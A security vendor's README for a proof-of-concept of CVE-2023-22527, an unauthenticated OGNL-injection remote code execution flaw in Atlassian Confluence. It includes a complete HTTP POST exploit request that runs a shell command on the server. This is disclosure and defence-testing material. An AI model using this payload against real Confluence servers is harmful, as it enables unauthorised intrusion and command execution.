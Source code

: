 # Atlassian Confluence CVE-2023-22527 PoC Exploit
Atlassian disclosed a remote code execution vulnerability affecting the Confluence Data Center and Confluence. <br><br>
In this repo, Picus provides a Proof-of-Concept exploit for the CVE-2023-22527 vulnerability.

Test security controls against the CVE-2023-22527 vulnerability exploit 
--------------------------------------
Picus can help you simulate the CVE-2023-22527 vulnerability exploits for free. No setup or signup is required.<br>
Use [Picus Emerging Threat Simulator](https://insights.picussecurity.com/emerging-threat-simulator-announcement?utm_source=github&utm_medium=organic+social&utm_campaign=PLS+Offensive+-+ET+Simulator) and test your defenses in a few clicks.<br> 

If you are looking for more detailed information, check out our blog post: [CVE-2023-22527: Another OGNL Injection Leads to RCE in Atlassian Confluence](https://www.picussecurity.com/resource/blog/cve-2023-22527-another-ognl-injection-leads-to-rce-in-atlassian-confluence)


CVE-2023-22527 Proof-of-concept (POC)
----------------------
Atlassian Confluence CVE-2023-22527 vulnerability is an OGNL injection vulnerability that allows unauthenticated adversaries to execute arbitrary commands remotely in a vulnerable Confluence instance. The vulnerability stems from a Velocity template file named "text-inline.vm". This file allows adversaries to execute commands by using the expression "#request['.KEY_velocity.struts2.context'].internalGet('ognl')".

The example HTTP POST request below exploits the CVE-2023-22527 vulnerability to execute arbitrary commands remotely.

#### Example CVE-2023-22527 Exploit:
```http
POST /template/aui/text-inline.vm HTTP/1.1
Host: <vulnerable_Confluence_instance>
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 243

label=\u0027+#request\u005b\u0027.KEY_velocity.struts2.context\u0027\u005d.internalGet(\u0027ognl\u0027).findValue(#parameters.x,{})+\u0027&x=(newfreemarker.template.utility.Execute()).exec({"whoami"})
```

Disclaimer
----------
©2024 Picus Security <br>
All rights reserved.

